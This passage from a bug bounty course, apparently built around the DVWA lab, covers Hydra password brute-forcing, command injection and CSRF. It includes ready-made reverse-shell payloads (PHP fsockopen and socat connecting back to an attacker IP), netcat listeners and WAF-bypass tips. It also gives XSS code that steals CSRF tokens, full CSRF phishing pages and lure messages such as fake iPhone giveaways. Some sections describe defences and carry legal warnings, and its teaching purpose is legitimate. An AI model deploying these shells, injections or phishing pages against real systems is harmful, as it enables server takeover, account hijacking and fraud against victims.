hydra -l admin \
  -P /usr/share/wordlists/rockyou.txt \
  localhost \
  http-get-form \
  "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\: PHPSESSID=...; security=medium:F=Username and/or password incorrect"
```

**Command Breakdown:**
- `hydra`: Initialize tool
- `-l admin`: Username is "admin"
- `-P rockyou.txt`: Use rockyou password list
- `localhost`: Target server
- `http-get-form`: Request type
- `/vulnerabilities/brute/`: Endpoint path
- `username=^USER^`: Username placeholder
- `password=^PASS^`: Password placeholder
- `Login=Login`: Submit button
- `H=Cookie:...`: Cookie header
- `F=Username and/or...`: Failure message

**Placeholders:**
- `^USER^`: Hydra replaces with username
- `^PASS^`: Hydra replaces with password from wordlist

**Rockyou.txt Location:**
```bash
/usr/share/wordlists/rockyou.txt

# If zipped, extract first:
cd /usr/share/wordlists
sudo gunzip rockyou.txt.gz
```

**Results:**
```
[80][http-get-form] host: localhost
login: admin   password: password
```

---

## Module 19: Command Injection

### What is Command Injection?

**Definition:** Tricking a computer into executing commands it wasn't supposed to by adding extra commands to input fields.

**Example:**
```
Normal: Enter your name → Processes name
Malicious: Enter name + command → Executes both
```

**Real-World Analogy:**
Like filling out a form and sneaking in a secret note that makes the computer do something bad behind the scenes.

### How It Works

**Vulnerable Code Pattern:**
```php
// Takes user input
$ip = $_REQUEST['ip'];

// Executes command without validation
shell_exec("ping -c 4 $ip");
```

**Problem:** No input validation = Can inject additional commands

### Command Injection Operators

**Linux/Unix:**
- `;` - Execute next command
- `&&` - Execute if previous succeeds
- `||` - Execute if previous fails
- `|` - Pipe output to next command
- `` `cmd` `` - Command substitution
- `$(cmd)` - Command substitution

### Practical: DVWA Command Injection

**Setup:**
```
1. Navigate to Command Injection
2. Security Level: Low
3. Feature: Ping an IP address
```

**Test Normal Functionality:**
```
Input: 127.0.0.1
Result: Ping successful (64 bytes...)
```

**Test Basic Injection:**
```
Input: 127.0.0.1 && whoami
Result: BLOCKED by WAF
```

**Bypass WAF with Pipe:**
```
Input: 127.0.0.1 | whoami
Result: Success! Shows username
```

### Exploitation Commands

**System Information:**
```bash
# Check username
127.0.0.1 | whoami

# List directory contents
127.0.0.1 | ls

# Detailed directory listing
127.0.0.1 | ls -la

# Check installed software
127.0.0.1 | which php
127.0.0.1 | which python
127.0.0.1 | which python3

# Read file contents
127.0.0.1 | cat index.php

# Navigate directories
127.0.0.1 | cd help && ls

# Read source code
127.0.0.1 | cat vulnerabilities/fi/source/index.php
```

### Source Code Analysis

**View Source (DVWA Feature):**
```php
// Vulnerable code
if(isset($_POST['Submit'])) {
    $target = $_REQUEST['ip'];

    // No input validation!
    shell_exec("ping -c 4 $target");
}
```

**Why Vulnerable:**
1. Takes raw user input
2. No sanitization
3. Directly passes to shell_exec()
4. Allows command chaining

### Getting Full Server Control

**Step 1: Reconnaissance**
```bash
# Check what's installed
127.0.0.1 | which php
# Result: /usr/bin/php ✓

127.0.0.1 | which python3
# Result: (not found) ✗
```

**Step 2: Get Your IP Address**
```bash
# On attacker machine
ip addr

# Example output
inet 192.168.1.100/24
```

**Step 3: Generate Reverse Shell**

Visit: https://revshells.com

**Select:**
- Language: PHP
- IP: Your IP (192.168.1.100)
- Port: 4444

**Generated Payload:**
```php
php -r '$sock=fsockopen("192.168.1.100",4444);exec("/bin/bash -i <&3 >&3 2>&3");'
```

**Step 4: Set Up Listener**
```bash
# On attacker machine
nc -lvnp 4444
```

**Step 5: Execute Payload**
```
Input in DVWA:
127.0.0.1 | php -r '$sock=fsockopen("192.168.1.100",4444);exec("/bin/bash -i <&3 >&3 2>&3");'
```

**Result:** Full shell access to server! 🎯

---

## Reconnaissance Workflow Summary



---

## Complete Tool Arsenal

| Tool | Purpose | Command Example |
|------|---------|-----------------|
| Subfinder | Public subdomain enumeration | `subfinder -d target.com -all` |
| Amass | DNS enumeration + records | `amass enum -d target.com` |
| DNSx | DNS bruteforcing | `dnsx -d target.com -w wordlist.txt` |
| HTTPx | Probe live hosts | `cat domains.txt \| httpx` |
| Nmap | Port scanning (detailed) | `nmap -sS -sV target.com` |
| Naabu | Port scanning (fast) | `naabu -host target.com` |
| Feroxbuster | Directory bruteforcing | `feroxbuster -u URL -w wordlist` |
| Nuclei | Vulnerability scanning | `nuclei -target URL` |
| Katana | Web crawling | `katana -u URL -jc` |
| Wafw00f | Firewall detection | `wafw00f URL` |
| Hydra | Brute force attacks | `hydra -l user -P pass.txt host service` |
| Burp Suite | Request interception | GUI tool |

---

## Key Takeaways

### Reconnaissance Phase
✓ Use multiple tools (different results)
✓ Always combine + deduplicate results
✓ Prioritize targets with functionality
✓ Look for wildcard domains
✓ Check for hidden subdomains (DNSx)
✓ Verify live hosts before testing

### Exploitation Phase
✓ Start with default passwords
✓ Use brute force when needed
✓ Identify input validation weaknesses
✓ Test for command injection
✓ Check source code when possible
✓ Know your target's technology stack

### Security Bypasses
✓ Try different operators (&&, ||, |, ;)
✓ Test various encoding methods
✓ Use alternative commands
✓ Chain multiple techniques
✓ Monitor WAF responses

---

## Important Warnings

⚠️ **Legal Boundaries:**
- ONLY test in-scope targets
- NEVER exceed program rules
- Get explicit permission
- Respect rate limits
- Don't cause DoS conditions

⚠️ **Technical Cautions:**
- High thread counts = WAF blocking
- Excessive requests = IP ban
- Respect server resources
- Test in lab first
- Always have permission

---

## Practice Environments

**Safe Practice:**
- DVWA (Damn Vulnerable Web App)
- HackTheBox
- TryHackMe
- PortSwigger Academy
- Local lab setups

**Never Test On:**
- Production systems without permission
- Out-of-scope domains
- Systems you don't own
- Without proper authorization

---

---

## Module 20: Command Injection - Advanced Exploitation

### Reverse Shell Setup

**Step 1: Check Your IP Address**
```bash
ip addr

# Example output:
inet 192.168.1.100/24
```

**Step 2: Generate Reverse Shell Payload**

Visit: **revshells.com**

**Configuration:**
- Language: PHP
- Your IP: 192.168.1.100
- Port: 1234

**Generated Payload:**
```php
php -r '$sock=fsockopen("192.168.1.100",1234);exec("/bin/bash -i <&3 >&3 2>&3");'
```

**Step 3: Set Up Listener**
```bash
nc -lvnp 1234
```

**Flags:**
- `-l`: Listen mode
- `-v`: Verbose
- `-n`: No DNS lookup
- `-p`: Port number

### Executing the Attack

**Inject Command:**
```
Input: 127.0.0.1 | php -r '$sock=fsockopen("192.168.1.100",1234);exec("/bin/bash -i <&3 >&3 2>&3");'
```

**Result:** Application hangs → Check listener

**Problem:** PHP IDS (Web Application Firewall) blocking PHP code!

### Bypassing WAF with Native Binaries

**Why PHP Failed:**
- WAF recognizes malicious PHP code
- Blocks reverse shell attempts
- Flags suspicious payloads

**Solution:** Use legitimate system binaries

#### Check Available Tools

```bash
# Test for Python
127.0.0.1 | which python
127.0.0.1 | which python3
# Result: Not found

# Test for Netcat
127.0.0.1 | which nc
# Result: Not found

# Test for Socat
127.0.0.1 | which socat
# Result: /usr/bin/socat ✓ FOUND!
```

### Socat Exploitation

**What is Socat?**
- Similar to Netcat
- "Swiss Army knife of networking"
- Used for remote communication
- Legitimate system binary (not flagged by WAF)

**Why Socat Works:**
- ✓ Legitimate binary (not malicious code)
- ✓ Native communication tool
- ✓ Not flagged by WAF
- ✗ PHP code = Flagged as malicious

**Generate Socat Payload:**

Visit: revshells.com
- Select: Socat
- IP: Your IP
- Port: 1234

**Payload:**
```bash
socat TCP:192.168.1.100:1234 EXEC:cmd,pty,stderr,setsid,sigint,sane
```

**Important:** Change `cmd` to `bash` for Linux servers!

**Corrected Payload:**
```bash
socat TCP:192.168.1.100:1234 EXEC:bash,pty,stderr,setsid,sigint,sane
```

**Why?**
- `cmd` = Windows Command Prompt
- `bash` = Linux shell
- Target is Linux server → Use bash

### Successful Exploitation

**Step 1: Start Listener**
```bash
nc -lvnp 1234
```

**Step 2: Inject Payload**
```
Input: 127.0.0.1 | socat TCP:192.168.1.100:1234 EXEC:bash,pty,stderr,setsid,sigint,sane
Submit
```

**Result:** Connection received! 🎯

**Verify Access:**
```bash
# List files
ls
# Output: help  index.php  source

# Check username
whoami
# Output: www-data

# Navigate directories
cd help && ls

# Read files
cat index.php

# Full system access achieved!
```

### Medium Security Level

**Source Code Analysis:**
```php
// Medium level blacklist
$blacklist = array('&&', ';');
$target = str_replace($blacklist, "", $target);
```

**Blacklisted:**
- `&&` (blocked)
- `;` (blocked)

**Still Works:**
- `|` (pipe - NOT blacklisted)

**Test:**
```
127.0.0.1 | whoami
# Still works!

127.0.0.1 | socat TCP:192.168.1.100:1234 EXEC:bash,pty,stderr,setsid,sigint,sane
# Reverse shell still successful!
```

---

## Module 21: Automated Command Injection - Commix

### What is Commix?

**Full Name:** Command Injection Exploiter

**Features:**
- Automated OS command injection detection
- Multiple injection techniques
- Pseudo-terminal shell
- Reverse shell generation
- Built-in bypass methods

### Installation

**From GitHub:**
```bash
# Clone repository
git clone https://github.com/commixproject/commix.git

# Navigate to directory
cd commix

# Run tool
python3 commix.py
```

### Usage with Burp Suite

**Step 1: Intercept Request**
```
1. Enable Burp Suite proxy
2. Submit test request
3. Capture POST data
```

**Intercepted Request:**
```
POST /vulnerabilities/exec/ HTTP/1.1
Host: localhost
Cookie: PHPSESSID=...; security=medium

ip=127.0.0.1&Submit=Submit
```

**Step 2: Extract Required Values**
- URL: `/vulnerabilities/exec/`
- Cookie: `PHPSESSID=...; security=medium`
- Data: `ip=127.0.0.1&Submit=Submit`

### Commix Command Structure

**Basic Command:**
```bash
python3 commix.py \
  -u "http://localhost/vulnerabilities/exec/" \
  --cookie="PHPSESSID=...; security=medium" \
  --data="ip=127.0.0.1&Submit=Submit"
```

**Flags Explained:**
- `-u`: Target URL
- `--cookie`: Cookie header
- `--data`: POST parameters

**Important:** Wrap cookie and data in double quotes!

### Execution Results

**Detection:**
```
Testing connection to target URL...
POST parameter 'ip' is vulnerable!
Do you want a Pseudo-Terminal shell? [Y/n] Y
```

**Shell Access:**
```
commix(os_shell) > ls
help  index.php  source

commix(os_shell) > whoami
www-data

commix(os_shell) > pwd
/var/www/html/vulnerabilities/exec
```

**Note:** Commix shell is slower than manual reverse shell but easier to use.

### Advanced Features

**Reverse Shell Option:**
```bash
# Commix has built-in reverse shell
# Check documentation for --reverse-shell flag
python3 commix.py --reverse-shell
```

**Benefits:**
- Automatic detection
- Multiple bypass techniques
- User-friendly interface
- No manual payload crafting

**Limitations:**
- Slower response time
- Less stable than manual shells
- May miss complex bypasses

### When to Use Manual vs Automated

**Use Manual (Socat/Netcat):**
✓ Need stable shell
✓ Long-term access required
✓ Fast response needed
✓ Complex post-exploitation

**Use Automated (Commix):**
✓ Quick testing
✓ Multiple targets
✓ Proof of concept
✓ Initial reconnaissance

---

## Module 22: CSRF (Cross-Site Request Forgery)

### What is CSRF?

**Definition:** Tricking someone into performing actions online without their knowledge.

**Real-World Scenario:**
```
You're logged into your bank account
Checking balance, browsing normally
Hacker sends you a hidden link/image
You click/load it unknowingly
Request sent to bank: "Transfer money to hacker"
Bank thinks: "Valid request from logged-in user"
Money transferred without your knowledge!
```

### How CSRF Works

**Attack Flow:**
```
1. Victim logs into website (bank, social media)
2. Session cookie stored in browser
3. Attacker crafts malicious request
4. Victim visits attacker's page
5. Hidden request auto-executes
6. Uses victim's valid session
7. Action performed without consent
```

**Key Point:** Browser automatically sends cookies with requests!

### CSRF Attack Requirements

**Prerequisites:**
1. ✓ Victim must be authenticated
2. ✓ Valid session cookie exists
3. ✓ No CSRF protection implemented
4. ✓ Victim visits attacker's page

**What Makes It Dangerous:**
- Uses legitimate session
- No password required
- Victim unaware
- Automatic execution

### Real-World Impact

**Possible Attacks:**
- Change account password
- Transfer money
- Delete account
- Post content
- Change email
- Modify settings
- Make purchases

**Example Scenarios:**

**Banking:**
```html
<!-- Attacker's malicious page -->

```

**Social Media:**
```html
<!-- Change email -->

```

**Password Change:**
```html
<form action="https://site.com/change-password" method="POST">
    <input type="hidden" name="new_password" value="hacked123" />
</form>
<script>document.forms[0].submit();</script>
```

### CSRF vs XSS

**CSRF:**
- Uses victim's session
- Performs actions AS victim
- No code execution on site
- External attack page

**XSS:**
- Executes code ON site
- Steals data directly
- More flexible
- Higher severity

### Protection Mechanisms

**CSRF Tokens:**
```html
<form method="POST">
    <input type="hidden" name="csrf_token" value="random_unique_token" />
    <input type="password" name="new_password" />
</form>
```

**How Tokens Work:**
1. Server generates unique token per session
2. Token included in forms
3. Server validates token on submission
4. Rejects requests without valid token

**Other Protections:**
- SameSite cookie attribute
- Referer header checking
- Custom request headers
- Re-authentication for sensitive actions

### Testing for CSRF

**Manual Testing:**
1. Identify sensitive action (password change)
2. Capture legitimate request
3. Remove/modify CSRF token
4. Replay request
5. Check if action succeeds

**Vulnerable Response:**
```
Status: 200 OK
Password changed successfully!
```

**Secure Response:**
```
Status: 403 Forbidden
Invalid CSRF token
```

---

## Module 23: CSRF Practical Exploitation (DVWA)

### Setup

**Navigate to CSRF:**
```
DVWA → CSRF section
Security Level: Low
```

**Functionality:** Password change form

**Form Analysis:**
```html
<form>
    <input type="password" name="password_new" />
    <input type="password" name="password_conf" />
    <input type="submit" name="Change" value="Change" />
</form>
```

### Low Security Exploitation

**Step 1: Intercept Request with Burp Suite**

Enable Burp:
```
1. FoxyProxy → Burp
2. Intercept: ON
3. Change password: test123
4. Capture request
```

**Captured Request:**
```
GET /vulnerabilities/csrf/?password_new=test123&password_conf=test123&Change=Change
Cookie: PHPSESSID=...; security=low
```

**Analysis:**
- Method: GET
- Parameters visible in URL
- No CSRF token
- Only requires valid session

**Step 2: Craft Malicious Payload**

**HTML Payload:**
```html
<!DOCTYPE html>
<html>
<head>
    <title>Win a Free iPhone!</title>
</head>
<body>
    <h1>Congratulations! Click to claim prize!</h1>

    <!-- Hidden malicious request -->
    
</body>
</html>
```

**How It Works:**
1. Victim clicks "Free iPhone" link
2. Page loads
3. Hidden image loads
4. Image src = Password change request
5. Browser sends cookies automatically
6. Password changed to "hacked123"

**Step 3: Host Malicious Page**

**Simple HTTP Server:**
```bash
# Python 3
python3 -m http.server 8000

# Python 2
python -m SimpleHTTPServer 8000
```

**Access:** http://localhost:8000/malicious.html

**Step 4: Social Engineering**

**Attack Scenarios:**

**Email:**
```
Subject: You've won a prize!
Body: Click here to claim: http://attacker.com/prize.html
```

**Social Media:**
```
Check out this amazing deal!
[malicious link]
```

**Chat Message:**
```
LOL look at this funny video 😂
[malicious link]
```

### Attack Demonstration

**Scenario:**
```
1. Admin logged into DVWA
2. Receives email: "Free gift!"
3. Clicks link → Visits attacker page
4. Page auto-loads with hidden request
5. Admin's password silently changed
6. Admin unaware
7. Attacker logs in with new password
```

**Verify:**
```
Try logging in:
Username: admin
Password: hacked123
Success! Account compromised
```

### Medium Security Level

**Navigate to Source:**
```
View Source → Medium level
```

**Code Analysis:**
```php
if (isset($_SERVER['HTTP_REFERER'])) {
    if (strpos($_SERVER['HTTP_REFERER'],
        $_SERVER['SERVER_NAME']) !== false) {
        // Allow request
    } else {
        // Block request
    }
}
```

**Protection:** Checks Referer header

**Bypass:** Host malicious page on same domain

**Exploit:**
```html
<!-- Upload to vulnerable upload point -->
<!-- Or use open redirect vulnerability -->
<!-- Or XSS to inject payload -->
```

### High Security Level

**Code Analysis:**
```php
if (isset($_POST['csrf_token'])) {
    if ($_POST['csrf_token'] === $_SESSION['csrf_token']) {
        // Allow request
    } else {
        // Block request
    }
}
```

**Protection:** CSRF token validation

**Bypass Attempts:**
1. ❌ Remove token
2. ❌ Use old token
3. ❌ Use empty token
4. ❌ Guess token

**Note:** Proper CSRF protection cannot be bypassed (in isolation)

**Combined Attack:** XSS + CSRF
```javascript
// Use XSS to steal CSRF token
fetch('/csrf-page')
    .then(r => r.text())
    .then(html => {
        // Extract token from HTML
        let token = html.match(/csrf_token.*value="(.*)"/)[1];

        // Submit with stolen token
        fetch('/change-password', {
            method: 'POST',
            body: 'password=hacked&csrf_token=' + token
        });
    });
```

---

## CSRF Attack Vectors

### Image Tag
```html

```

### Hidden Form
```html
<form id="csrf" action="http://site.com/action" method="POST">
    <input type="hidden" name="param" value="value" />
</form>
<script>document.getElementById('csrf').submit();</script>
```

### Iframe
```html
<iframe src="http://site.com/action?param=value" style="display:none;"></iframe>
```

### JavaScript Fetch
```javascript
fetch('http://site.com/action', {
    method: 'POST',
    credentials: 'include', // Include cookies
    body: 'param=value'
});
```

### Link
```html
<a href="http://site.com/delete-account">Click for free prize!</a>
```

---

## CSRF Prevention Best Practices

### For Developers

**1. CSRF Tokens (Primary Defense)**
```php
// Generate token
$_SESSION['csrf_token'] = bin2hex(random_bytes(32));

// Validate token
if ($_POST['csrf_token'] !== $_SESSION['csrf_token']) {
    die('CSRF attack detected!');
}
```

**2. SameSite Cookies**
```php
setcookie('session', $value, [
    'samesite' => 'Strict' // or 'Lax'
]);
```

**3. Custom Headers**
```javascript
fetch('/api/action', {
    headers: {
        'X-Requested-With': 'XMLHttpRequest'
    }
});
```

**4. Double Submit Cookies**
```
Cookie: csrf_token=abc123
POST data: csrf_token=abc123
Verify: Cookie value === POST value
```

**5. Re-authentication**
```
Sensitive actions require password:
- Change password
- Delete account
- Transfer money
```

### CSRF Real-World Example (Detailed)

**Banking Scenario - State Bank of India:**

**Setup:**
```
1. You're logged into SBI online banking
2. Checking your balance
3. Valid session active in browser
4. SBI website has CSRF vulnerability
```

**Attack Flow:**

**Step 1: Attacker's Knowledge**
- ✓ Knows you use SBI
- ✓ Knows SBI has CSRF vulnerability
- ✓ Crafts malicious request

**Step 2: Social Engineering**
```
Attacker sends you:
- Email: "Check this funny image!"
- WhatsApp: "Look at this meme 😂"
- SMS: "You won a prize! Click here"
```

**Step 3: Hidden Attack**
```html
<!-- What you see -->


<!-- What actually happens -->

```

**Step 4: Automatic Execution**
```
You click the link/image
↓
Page loads in background
↓
Hidden request executes
↓
Browser automatically sends your SBI cookies
↓
SBI thinks: "This is a valid request from logged-in user"
↓
Money transferred to attacker's account
↓
You don't even know it happened!
```

**Why It Works:**
1. ✓ You're already logged in (valid session)
2. ✓ Browser automatically sends cookies
3. ✓ SBI doesn't verify request origin
4. ✓ No CSRF token validation
5. ✓ Request appears legitimate

**The Analogy Explained:**

**Letter Scenario:**
```
You're on vacation
Someone writes letter in your name
Uses your official stationery
Recipient assumes it's from you
Acts on the letter
You never wrote it!

= CSRF Attack
```

**Technical Translation:**
```
You're logged in (on vacation with active session)
Attacker crafts request in your name
Uses your valid cookies (official stationery)
Server assumes request is from you
Executes the action
You never initiated it!
```

### Why CSRF is Dangerous

**Single Click = Account Compromise**

**Possible Damages:**
- 💰 **Banking:** Transfer all money
- 🔑 **Passwords:** Change without knowledge
- 📧 **Email:** Change recovery email
- 🗑️ **Account:** Delete account
- 👤 **Profile:** Modify personal info
- 🛒 **Shopping:** Make unauthorized purchases
- 📝 **Posts:** Create malicious content

**Real Impact Examples:**

**1. Financial Loss**
```
One click → ₹50,000 transferred
One click → Credit card maxed out
One click → Investment sold at loss
```

**2. Account Takeover**
```
Password changed → You're locked out
Email changed → Can't recover
Phone number changed → No 2FA
```

**3. Reputation Damage**
```
Offensive posts made in your name
Spam sent to all contacts
Illegal content shared
```

### Key Characteristics of CSRF

**What Makes It Unique:**

**1. Uses Trust**
- Exploits browser's trust in cookies
- Exploits server's trust in authenticated users
- No password stealing needed

**2. Invisible Attack**
```
✓ No phishing page
✓ No credential theft
✓ No malware installation
✓ Just leverages existing session
```

**3. Browser Behavior**
```
Normal behavior: Browser sends cookies automatically
CSRF exploits: This automatic cookie sending
Result: Server can't distinguish legitimate vs malicious
```

**4. Social Engineering**
```
Must trick victim to:
- Click link
- Visit page
- Load image
While logged into target site
```

### CSRF vs Other Attacks

| Attack | Password Needed | User Action | Detection |
|--------|----------------|-------------|-----------|
| CSRF | ❌ No | Click link | Hard |
| Phishing | ✅ Yes | Enter credentials | Medium |
| Brute Force | ✅ Yes | None | Easy |
| Session Hijacking | ❌ No | None | Hard |
| XSS | ❌ No | Visit page | Medium |

### Protection Importance

**For Websites:**
```
Without CSRF protection:
- Any logged-in user vulnerable
- Actions can be forged
- No way to verify intent
- Complete trust in session

With CSRF protection:
- Token validates intent
- Forged requests rejected
- Origin verification
- Trust + verification
```

**For Users:**
```
Risk factors:
- Clicking unknown links while logged in
- Multiple tabs open (banking + random sites)
- Staying logged in 24/7
- Not logging out after use

Protection:
- Log out after banking
- Don't click suspicious links
- Use different browsers
- Clear cookies regularly
```

---

## Module 24: CSRF Practical Demonstration (DVWA)

### Initial Setup

**Navigate to CSRF Module:**
```
DVWA Dashboard → CSRF
Security Level: Low
Feature: Password Change Form
```

**Interface:**
```
New password: [________]
Confirm password: [________]
[Change] button
```

### Understanding the Vulnerability

**Legitimate Use:**
```
1. User opens password change page
2. Enters new password
3. Clicks "Change"
4. Password updated
```

**Test Normal Functionality:**
```
New password: test123
Confirm password: test123
Click: Change
Result: Password changed successfully
```

**Verify:**
```
Logout
Login with: admin / test123
Success! ✓
```

### Low Security - Source Code Analysis

**View Source:**
```php
<?php
if (isset($_GET['password_new']) && isset($_GET['password_conf'])) {
    $new_pass = $_GET['password_new'];
    $conf_pass = $_GET['password_conf'];

    if ($new_pass == $conf_pass) {
        // Change password - NO validation!
        change_password($new_pass);
        echo "Password changed successfully!";
    }
}
?>
```

**Vulnerabilities Identified:**
1. ❌ Uses GET method (visible in URL)
2. ❌ No CSRF token
3. ❌ No origin checking
4. ❌ No re-authentication
5. ❌ No referer validation

### Crafting the Attack

**Step 1: Capture Legitimate Request**

**Using Burp Suite:**
```
1. Enable intercept
2. Change password to: newpass123
3. Capture request
```

**Captured Request:**
```
GET /vulnerabilities/csrf/?password_new=newpass123&password_conf=newpass123&Change=Change HTTP/1.1
Host: localhost
Cookie: PHPSESSID=abc123xyz; security=low
```

**Extract URL:**
```
http://localhost/vulnerabilities/csrf/?password_new=newpass123&password_conf=newpass123&Change=Change
```

**Step 2: Create Malicious HTML Page**

**File: malicious.html**
```html
<!DOCTYPE html>
<html>
<head>
    <title>🎁 Congratulations! You Won an iPhone 15! 🎁</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            text-align: center;
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            color: white;
            padding: 50px;
        }
        .prize-box {
            background: white;
            color: #333;
            padding: 40px;
            border-radius: 20px;
            max-width: 600px;
            margin: 0 auto;
            box-shadow: 0 10px 40px rgba(0,0,0,0.3);
        }
        h1 { color: #667eea; }
        .btn {
            background: #28a745;
            color: white;
            padding: 15px 40px;
            border: none;
            border-radius: 10px;
            font-size: 20px;
            cursor: pointer;
            margin-top: 20px;
        }
        .btn:hover { background: #218838; }
    </style>
</head>
<body>
    <div class="prize-box">
        <h1>🎉 CONGRATULATIONS! 🎉</h1>
        <h2>You are our 1,000,000th visitor!</h2>
        <p>You've won a <strong>FREE iPhone 15 Pro Max</strong>!</p>
        <p>Click below to claim your prize NOW!</p>
        <button class="btn" onclick="claimPrize()">
            Claim My iPhone! 📱
        </button>

        <!-- Hidden CSRF attack -->
        
    </div>

    <script>
        function claimPrize() {
            // Show fake loading
            document.querySelector('.btn').innerHTML = 'Processing...';

            // Execute CSRF attack
            document.getElementById('csrf-img').src =
                'http://localhost/vulnerabilities/csrf/?password_new=hacked123&password_conf=hacked123&Change=Change';

            // Redirect after delay
            setTimeout(() => {
                alert('Congratulations! Your prize will arrive in 2-3 weeks!');
                window.location.href = 'https://google.com';
            }, 2000);
        }
    </script>
</body>
</html>
```

**Alternative - Silent Attack (No User Interaction):**
```html
<!DOCTYPE html>
<html>
<head>
    <title>Funny Cat Videos</title>
</head>
<body>
    <h1>Loading funny cats... 🐱</h1>

    <!-- Attack executes immediately on page load -->
    

    <script>
        // Redirect to real content after attack
        setTimeout(() => {
            window.location.href = 'https://www.youtube.com/watch?v=dQw4w9WgXcQ';
        }, 1000);
    </script>
</body>
</html>
```

**Step 3: Host the Malicious Page**

**Method 1: Python HTTP Server**
```bash
# Create malicious.html file
nano malicious.html
# Paste the HTML above

# Start server
python3 -m http.server 8080

# Access at: http://localhost:8080/malicious.html
```

**Method 2: Public Hosting**
```
1. Upload to: Repl.it, Netlify, GitHub Pages
2. Get public URL
3. Send to victim
```

**Step 4: Social Engineering Delivery**

**Email Template:**
```
Subject: 🎁 You Won! Claim Your iPhone Now!

Dear Valued Customer,

Congratulations! You've been selected as our lucky winner!

You have won a brand new iPhone 15 Pro Max!

Click here to claim: http://attacker.com/prize.html

This offer expires in 24 hours!

Best regards,
Apple Giveaway Team
```

**WhatsApp/SMS:**
```
Hey! 😊
Check out this hilarious video 😂
You won't believe what happens!
[malicious link]
```

**Social Media:**
```
OMG! This is amazing! 🤯
Everyone needs to see this!
[malicious link]
```

### Attack Execution

**Victim's Perspective:**
```
1. Receives email/message
2. Currently logged into DVWA (or bank)
3. Clicks link out of curiosity
4. Sees "iPhone prize" page
5. Clicks "Claim Prize" button
6. Sees success message
7. Gets redirected
8. Doesn't suspect anything
```

**What Actually Happened:**
```
1. Page loaded malicious HTML
2. Hidden image tag executed
3. Browser sent request to DVWA
4. Request included valid cookies (automatic)
5. DVWA received: password_new=hacked123
6. DVWA validated: User is authenticated ✓
7. DVWA changed password to: hacked123
8. Victim unaware
```

**Attacker's Perspective:**
```
1. Victim clicked link ✓
2. Password changed ✓
3. Login with: admin / hacked123
4. Full account access ✓
5. Success! 🎯
```

### Verification

**Test the Attack:**
```
1. Ensure you're logged in as admin
2. Open malicious page in same browser
3. Click "Claim Prize"
4. Try old password: FAIL ❌
5. Try new password (hacked123): SUCCESS ✓
```

### Attack Variations

**1. Auto-Submit Form**
```html
<form id="csrf-form" action="http://localhost/vulnerabilities/csrf/" method="GET">
    <input type="hidden" name="password_new" value="pwned123" />
    <input type="hidden" name="password_conf" value="pwned123" />
    <input type="hidden" name="Change" value="Change" />
</form>
<script>
    document.getElementById('csrf-form').submit();
</script>
```

**2. Multiple Targets**
```html
<!-- Change password -->


<!-- Change email (if vulnerable) -->


<!-- Delete account (if vulnerable) -->

```

**3. Iframe Attack**
```html
<iframe src="http://localhost/vulnerabilities/csrf/?password_new=owned&password_conf=owned&Change=Change"
        style="display:none;">
</iframe>
```

**4. JavaScript Fetch**
```javascript
fetch('http://localhost/vulnerabilities/csrf/?password_new=fetch123&password_conf=fetch123&Change=Change', {
    credentials: 'include' // Include cookies
})
.then(() => console.log('CSRF successful'));
```

### Defense Demonstration

**Why Low Security Failed:**
```php
// NO validation whatsoever
if ($_GET['password_new'] == $_GET['password_conf']) {
    change_password($_GET['password_new']);
}
```

**What's Missing:**
- ❌ No CSRF token
- ❌ No origin validation
- ❌ No referer checking
- ❌ Uses GET (should use POST)
- ❌ No re-authentication

---

## CSRF Impact Scenarios

### Banking Applications

**Attack:** Transfer funds
```html

```

**Impact:** Direct financial loss

### E-commerce Sites

**Attack:** Make purchases
```html
<form action="https://shop.com/checkout" method="POST">
    <input type="hidden" name="item" value="expensive_phone" />
    <input type="hidden" name="quantity" value="10" />
    <input type="hidden" name="ship_to" value="attacker_address" />
</form>
```

**Impact:** Unauthorized purchases, shipping to attacker

### Social Media

**Attack:** Change profile/post content
```html

```

**Impact:** Reputation damage, spam spreading

### Administrative Panels

**Attack:** Create admin account
```html

```

**Impact:** Complete system compromise

---

## Real-World CSRF Examples

**Historical Incidents:**

**1. Netflix (2006)**
- Changed account details via CSRF
- Could change email and password
- Complete account takeover

**2. YouTube (2008)**
- Forced users to favorite videos
- Forced users to subscribe to channels
- Mass manipulation possible

**3. ING Direct (2007)**
- Transferred money via CSRF
- No additional authentication
- Financial losses

**4. McAfee (2010)**
- Changed account settings
- Disabled antivirus protection
- Security compromise

---

**Note**: This completes the detailed CSRF module. The next section will demonstrate Medium and High security levels in DVWA, showing how proper protections work.

*Course Status: CSRF Deep Dive Complete*
*Next: CSRF Defense Mechanisms & Higher Security Levels*

| Vulnerability | Impact | Difficulty | Detection |
|--------------|--------|------------|-----------|
| Brute Force | High | Easy | Hard |
| Command Injection | Critical | Medium | Easy |
| CSRF | High | Easy | Medium |
| XSS | High | Medium | Easy |
| SQL Injection | Critical | Medium | Easy |

---

## Key Takeaways - Part 4

### Command Injection
✓ Always test multiple operators (|, &&, ;, ||)
✓ Try different programming languages
✓ Use native binaries to bypass WAF
✓ Understand difference between cmd vs bash
✓ Automated tools (Commix) for quick testing
✓ Manual exploitation for stable shells

### CSRF
✓ Exploits trust browsers have in authenticated users
✓ No password needed if user is logged in
✓ GET requests more vulnerable than POST
✓ CSRF tokens are primary defense
✓ Always test token validation
✓ Can chain with XSS for token theft

### Testing Methodology
1. **Identify** vulnerable input points
2. **Test** with basic payloads
3. **Bypass** security measures
4. **Exploit** vulnerability
5. **Document** findings
6. **Report** responsibly

---

**Note**: Continue practicing these vulnerabilities in DVWA before attempting real bug bounty programs. Understanding the fundamentals is crucial for success.

*Course Status: Command Injection & CSRF Complete*
*Next: SQL Injection, XSS, and File Upload Vulnerabilities*

---

## Additional Resources

**Setup Guides:**
- Kali Linux installation (see description)
- DVWA configuration article (see description)
- Tool installation: GitHub → /releases

**Further Learning:**
- Password cracking video (referenced)
- Advanced web exploitation
- API security testing
- Mobile application testing

**Community:**
- Bug bounty platforms: HackerOne, Bugcrowd, Intigriti
- Practice more vulnerabilities in DVWA
- Join bug bounty communities
- Share knowledge responsibly
